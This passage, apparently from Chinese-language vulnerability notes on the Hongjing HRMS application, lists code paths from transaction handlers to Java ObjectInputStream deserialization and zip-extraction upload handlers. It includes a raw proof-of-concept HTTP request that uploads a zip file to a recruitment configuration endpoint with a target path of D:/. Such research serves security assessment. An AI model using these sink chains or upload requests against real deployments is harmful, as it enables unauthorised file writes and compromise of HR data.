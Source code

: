 <table><tbody><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">execute(com.hjsj.hrms.transaction.gz.gz_accounting.report.GetGzReportDataTrans)</span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">unzipBytes_object(com.hjsj.hrms.utils.PubFunc)</span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">java.io.ObjectInputStream#readObject</span></p></td></tr><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">execute(com.hjsj.hrms.transaction.gz.gz_analyse.GzAnalyseExportDataTrans)</span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">unzipBytes_object(com.hjsj.hrms.utils.PubFunc)</span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">java.io.ObjectInputStream#readObject</span></p></td></tr><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">execute(com.hjsj.hrms.transaction.gz.gz_analyse.EditTableInfoTrans)</span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">unzipBytes_object(com.hjsj.hrms.utils.PubFunc)</span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">java.io.ObjectInputStream#readObject</span></p></td></tr><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">execute(com.hjsj.hrms.transaction.gz.gz_accounting.report.GzReportDataExportTrans)</span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">unzipBytes_object(com.hjsj.hrms.utils.PubFunc)</span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span leaf="">java.io.ObjectInputStream#readObject</span></p></td></tr></tbody></table>  
  
execute(com.hjsj.hrms.transaction.hire.demandPlan.positionDemand.ExportDemandZipTrans)  
  
  
（服务器查看是否上传成功）zip解压文件上传，  
  
  
execute(com.hjsj.hrms.module.recruitment.parameter.transaction.ReductionFileTrans)  
  
  
execute(com.hjsj.hrms.transaction.hire.parameterSet.configureParameter.ReductionFileTrans)  
  
  
execute(com.hjsj.hrms.transaction.hire.employActualize.employResume.ResumeZipTrans)  
  
```
POST /recruitment/parameter/configureParameter.do HTTP/2 Host: xxx Content-Length: 577 Cache-Control: max-age=0 Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "macOS" Cookie: xxx Accept-Language: zh-CN,zh;q=0.9 Origin: null Content-Type: multipart/form-data; Boundary=----Webkitformboundaryjoiis1y7hegw8myy:  Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: cross-site Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 Sec-Fetch-Dest: document Accept-Encoding: gzip, deflate, br Priority: u=0, i  ------WebKitFormBoundaryjOIIS1Y7heGW8MyY Content-Disposition: form-data; name="b_reduction"  b_reduction ------WebKitFormBoundaryjOIIS1Y7heGW8MyY Content-Disposition: form-data; name="path"  D~3a~2f ------WebKitFormBoundaryjOIIS1Y7heGW8MyY Content-Disposition: form-data; name="r_file"; filename="ceshi.zip" Content-Type: application/zip  qqqqqqqqqqqqqqqqPK
```  
  
  
